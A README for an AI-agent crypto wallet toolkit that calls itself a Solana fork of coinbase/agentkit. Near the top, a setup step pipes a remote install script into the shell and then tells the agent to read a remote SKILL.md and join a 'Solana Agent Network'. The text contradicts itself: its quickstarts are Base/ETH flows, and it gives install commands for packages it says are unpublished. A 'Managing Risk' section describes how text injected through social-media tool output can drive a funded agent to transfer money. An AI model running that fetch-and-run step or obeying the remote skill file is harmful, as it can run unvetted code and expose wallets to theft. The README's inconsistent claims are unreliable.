

<div align="center">
  

  <p>Solana-first toolkit that gives AI agents onchain actions. Devnet by default.</p>
</div>

## Overview

Musebook Agent Kit is our adaptation of [coinbase/agentkit](https://github.com/coinbase/agentkit)
(Apache-2.0, see [NOTICE](./NOTICE)). It keeps the framework-agnostic and wallet-agnostic design and
focuses it on Solana: SPL, Jupiter, x402 payments, and the **Solana Agent Network** run by Musebook.

| Language | Packages |
| --- | --- |
| TypeScript (npm) | `@musebook/agent-kit-core`, `@musebook/agent-kit-langchain`, `@musebook/agent-kit-model-context-protocol`, `@musebook/agent-kit-vercel-ai-sdk`, `@musebook/create-agent` |
| Python (PyPI) | `musebook-agent-kit`, `musebook-agent-kit-langchain`, `musebook-agent-kit-openai-agents-sdk`, `musebook-agent-kit-pydantic-ai`, `musebook-agent-kit-autogen`, `musebook-agent-kit-strands-agents`, `create-musebook-agent` |

Not published yet: install from this repo (`agentkit/typescript` pnpm workspace, `agentkit/python/*` with uv).

### Safety defaults

- Solana devnet by default; mainnet throws unless `MUSEBOOK_ENABLE_MAINNET=true`.
- The agent never signs user transactions server-side. Network joins are signed by the owner's wallet.
- Analytics disabled. No secrets in code.

### Join the Solana Agent Network

```ts
import { AgentKit, musebookAgentNetworkActionProvider } from "@musebook/agent-kit-core";
const kit = await AgentKit.from({ actionProviders: [musebookAgentNetworkActionProvider()] });
// actions: agent_network_health, agent_network_join_link, agent_network_verify, ...
```

Setup step for any runtime: `curl -fsSL https://join.musebook.trade/install.sh | sh`, then:
"Read https://join.musebook.trade/SKILL.md and join the Solana Agent Network".

## 🚀 Quickstart

### Node.js

_Prerequisites_:

- [Node.js 22+](https://nodejs.org/en/download/)
- [CDP Secret API Key](https://docs.cdp.coinbase.com/get-started/docs/cdp-api-keys#creating-secret-api-keys)
- [OpenAI API Key](https://help.openai.com/en/articles/4936850-where-do-i-find-my-openai-api-key)

1. Get your agent running:

```bash
# Create a new fullstack agent project
npm create onchain-agent@latest

# Navigate to your project directory
cd onchain-agent

# At this point, fill in your CDP API key id/secret, OpenAI API key, and any other environment variables in the .env.local file.
# Then, rename the .env.local file to .env
mv .env.local .env

# Install dependencies
npm install

# Run the development server
npm run dev
```

2. Visit `http://localhost:3000` in your browser and start telling your Agent to do things onchain!

```bash
User: Fund my wallet with some testnet ETH.
Agent: Your wallet has been successfully funded with testnet ETH. You can view the transaction [here](https://sepolia.basescan.org/tx/0x03e82934cd04be5b725927729b517c606f6f744611f0f36e834f21ad742ad7ca)
```

### Python

_Prerequisites_:

- [Python 3.10+](https://www.python.org/downloads/)
- [Poetry](https://python-poetry.org/docs/)
- [CDP Secret API Key](https://docs.cdp.coinbase.com/get-started/docs/cdp-api-keys#creating-secret-api-keys)
- [OpenAI API Key](https://help.openai.com/en/articles/4936850-where-do-i-find-my-openai-api-key)

1. Get your agent running:

```bash
# Create a new agent chatbot
pipx run create-musebook-agent

# Navigate to your project directory
cd onchain-agent

# At this point, fill in your CDP API key id/secret, OpenAI API key, and any other environment variables in the .env.local file.
# Then, rename the .env.local file to .env
mv .env.local .env

# Install dependencies
poetry install

# Run the chatbot
poetry run python chatbot.py
```

2. Select "1. chat mode" and start telling your Agent to do things onchain!

```bash
Prompt: Fund my wallet with some testnet ETH.
-------------------
Wallet: ccaf1dbf-3a90-4e52-ad34-89a07aad9e8b on network: base-sepolia with default address: 0xD9b990c7b0079c1c3733D2918Ee50b68f29FCFD5
-------------------

-------------------
Received eth from the faucet. Transaction: https://sepolia.basescan.org/tx/0x03e82934cd04be5b725927729b517c606f6f744611f0f36e834f21ad742ad7ca
-------------------
Your wallet has been successfully funded with testnet ETH. You can view the transaction [here](https://sepolia.basescan.org/tx/0x03e82934cd04be5b725927729b517c606f6f744611f0f36e834f21ad742ad7ca).
-------------------
```

## 🗂 Repository Structure

AgentKit is organized as two monorepos, one for Python and one for Typescript, each containing multiple packages.

```
agentkit/
├── typescript/
│   ├── agentkit/
|   |   └── scripts/generate-action-provider/ # use this to create new actions
│   │   └── src/
│   │       ├── action-providers/ # find 50+ actions in here
│   │       └── wallet-providers/
│   │           ├── cdp/
│   │           ├── privy/
│   │           └── viem/
│   ├── create-musebook-agent/
│   ├── framework-extensions/
│   │   ├── langchain/
│   │   ├── vercel-ai-sdk/
│   │   └── model-context-protocol/
│   └── examples/
│       ├── langchain-cdp-chatbot/
│       ├── langchain-cdp-smart-wallet-chatbot/
│       ├── langchain-farcaster-chatbot/
│       ├── langchain-legacy-cdp-chatbot/
│       ├── langchain-privy-chatbot/
│       ├── langchain-solana-chatbot/
│       ├── langchain-twitter-chatbot/
│       ├── langchain-xmtp-chatbot/
│       ├── langchain-zerodev-chatbot/
│       ├── model-context-protocol-smart-wallet-server/
│       └── vercel-ai-sdk-smart-wallet-chatbot/
├── python/
│   ├── musebook-agent-kit/
│   │   └── musebook_agent_kit/
│   │       ├── action_providers/  # find 30+ actions in here
│   │       └── wallet_providers/
│   │           ├── cdp/
│   │           ├── privy/
│   │           └── viem/
│   ├── create-musebook-agent/
│   ├── framework-extensions/
│   │   ├── autogen/
│   │   ├── langchain/
│   │   ├── openai-agents-sdk/
│   │   ├── pydantic-ai/
│   │   └── strands-agents/
│   └── examples/
│       ├── autogen-cdp-chatbot/
│       ├── langchain-cdp-chatbot/
│       ├── langchain-cdp-smart-wallet-chatbot/
│       ├── langchain-cdp-solana-chatbot/
│       ├── langchain-eth-account-chatbot/
│       ├── langchain-nillion-secretvault-chatbot/
│       ├── langchain-twitter-chatbot/
│       ├── openai-agents-sdk-cdp-chatbot/
│       ├── openai-agents-sdk-cdp-voice-chatbot/
│       ├── openai-agents-sdk-smart-wallet-chatbot/
│       ├── pydantic-ai-cdp-chatbot/
│       └── strands-agents-cdp-server-chatbot/
```

<a id="managing-risk"></a>
## ⚠️ Managing Risk

AgentKit gives an AI agent a wallet. LLMs do not reliably distinguish instructions from data, so text that reaches the model's context can influence which actions the agent takes, including transfers. This is inherent to the design and cannot be resolved within the SDK.

Every surface that feeds the model text increases the injection surface:

- **Direct** — interfaces where a third party sends text to the agent, such as a public website, chat bot, or API.
- **Indirect** — actions that pull external content into context. `twitterActionProvider` returns mentions and `farcasterActionProvider` returns profile data, both as tool output the model reads.

Either surface, combined with a funded wallet and a fund-moving action provider (`walletActionProvider` is registered by default), is sufficient for injected text to result in an onchain transfer. AgentKit does not gate transfers behind human approval, enforce spend caps, or allowlist destinations.

By using AgentKit you accept that managing these surfaces and keeping your funds safe is your responsibility as the developer.

Guardrails middleware is one common strategy. See the [LangChain middleware docs](./typescript/framework-extensions/langchain/README.md#middleware) and the [guardrails chatbot example](./typescript/examples/langchain-guardrails-cdp-chatbot), which combines human-in-the-loop approval for transfers with prompt injection filtering.

## 🤝 Contributing

**AgentKit is actively looking for community contributions!**

- To see a list of actions and frameworks we'd love to see open-source contributions for, see [WISHLIST.md](./WISHLIST.md).
- To understand the process for contributing to AgentKit, see [CONTRIBUTING.md](./CONTRIBUTING.md).

## 📜 Documentation

- [AgentKit Documentation](https://github.com/themusebook/agent-kit/tree/main/agentkit)
- Python API References
  - [AgentKit](https://github.com/themusebook/agent-kit/tree/main/agentkit)
  - [AgentKit Langchain Extension](https://github.com/themusebook/agent-kit/tree/main/agentkit)
  - [AgentKit OpenAI Agents SDK Extension](./python/framework-extensions/openai-agents-sdk/README.md)
  - [AgentKit Strands Agents Extension](./python/framework-extensions/strands-agents/README.md)
- Node.js API References
  - [AgentKit](https://github.com/themusebook/agent-kit/tree/main/agentkit)
  - [AgentKit Langchain Extension](https://github.com/themusebook/agent-kit/tree/main/agentkit)
  - [AgentKit Vercel AI SDK Extension](https://github.com/themusebook/agent-kit/tree/main/agentkit)
  - [AgentKit Model Context Protocol Extension](https://github.com/themusebook/agent-kit/tree/main/agentkit)

## 🌙 Nightly Builds

To access the bleeding edge version of AgentKit, you can install the nightly build for your language. This is a build of the latest code in the `main` branch, and is updated nightly.

### Typescript

You can install the latest nightly build with the following command:

```bash
npm install @musebook/agent-kit-core@nightly @musebook/agent-kit-langchain@nightly
```

If you're using an AI framework other than Langchain, make sure to install the corresponding package instead of `@musebook/agent-kit-langchain`.

To install a specific version of the nightly build, you can specify the exact version. For example, if you want to install the nightly build from February 20th, 2025, you can run the following:

```bash
npm install @musebook/agent-kit-core@0.2.3-nightly.20250220.0 @musebook/agent-kit-langchain@0.2.3-nightly.20250220.0
```

### Python

You can install the latest nightly build with the following command:

```bash
pip install --pre musebook-agent-kit musebook-agent-kit-langchain

# or, using poetry
poetry add musebook-agent-kit musebook-agent-kit-langchain --allow-prereleases
```

If you're using an AI framework other than Langchain, make sure to install the corresponding package instead of `musebook-agent-kit-langchain`.

To install a specific version of the nightly build, you can specify the exact version. For example, if you want to install the nightly build from February 20th, 2025, you can run the following:

```bash
pip install musebook-agent-kit==0.1.2.dev20250220 musebook-agent-kit-langchain==0.1.1.dev20250220

# or, using poetry
poetry add musebook-agent-kit==0.1.2.dev20250220 musebook-agent-kit-langchain==0.1.1.dev20250220 --allow-prereleases
```

## 🚨 Security and Bug Reports

The AgentKit team takes security seriously.
See [SECURITY.md](SECURITY.md) for more information.

## 📧 Contact

For feature requests, feedback, or questions, please reach out to us via the
email toly@mail.grokbot.com.

## 🔗 Supported Wallets, Protocols, and Frameworks

AgentKit is proud to have support for the following protocols, frameworks, wallets and networks. For detailed documentation on supported providers, see:

- [Action Providers (TypeScript)](https://github.com/themusebook/agent-kit/blob/main/agentkit/typescript/agentkit/src/action-providers)
- [Action Providers (Python)](https://github.com/themusebook/agent-kit/blob/main/agentkit/python/musebook-agent-kit/musebook_agent_kit/action_providers)
- [Wallet Providers (TypeScript)](https://github.com/themusebook/agent-kit/blob/main/agentkit/typescript/agentkit/src/wallet-providers)
- [Wallet Providers (Python)](https://github.com/themusebook/agent-kit/blob/main/agentkit/python/musebook-agent-kit/musebook_agent_kit/wallet_providers)

### Wallets

<a href="https://privy.io" target="_blank"></a>
<a href="https://viem.sh" target="_blank"></a>

### Protocols

<a href="https://www.alchemy.com/" target="_blank"></a>
<a href="https://compound.finance/" target="_blank"></a>
<a href="https://defillama.com/" target="_blank"></a>
<a href="https://farcaster.xyz" target="_blank"></a>
<a href="https://jup.ag" target="_blank"></a>
<a href="https://hyperbolic.xyz/" target="_blank"></a>
<a href="https://www.moonwell.fi" target="_blank"></a>
<a href="https://app.morpho.org" target="_blank"></a>
<a href="https://pyth.network" target="_blank"></a>
<a href="https://opensea.io" target="_blank"></a>
<a href="https://superfluid.org" target="_blank"></a>
<a href="https://zora.co" target="_blank"></a>
<a href="https://allora.network" target="_blank"></a>
<a href="https://dtelecom.org" target="_blank"></a>

### Frameworks

<a href="https://langchain.com" target="_blank"></a>
<a href="https://www.elizaos.ai" target="_blank"></a>
<a href="https://sdk.vercel.ai" target="_blank"></a>
<a href="https://modelcontextprotocol.io/" target="_blank"></a>
<a href="https://platform.openai.com/docs/guides/agents-sdk" target="_blank"></a>
<a href="https://strandsagents.com/latest/documentation/docs/" target="_blank"></a>

### Networks

<a href="https://ethereum.org" target="_blank"></a>

Note: We support all EVM and SVM networks, with deep protocol support for the above networks. Please don't hesitate to make contributions to add more support for your preferred networks.

## 📝 License

Apache-2.0 ([LICENSE.md](LICENSE.md)). Derived from coinbase/agentkit; see [NOTICE](NOTICE).

## 🔒 Legal

Experimental software provided AS-IS, with no warranty. It is not investment, legal or tax advice. Acts
proposed or performed by an agent are your responsibility. Not affiliated with or endorsed by Coinbase, Inc.
Optional CDP-based wallet providers are subject to the CDP Terms of Service when you choose to use them.

---

Built on Solana. Not affiliated with or endorsed by the Solana Foundation. Contact: toly@mail.grokbot.com
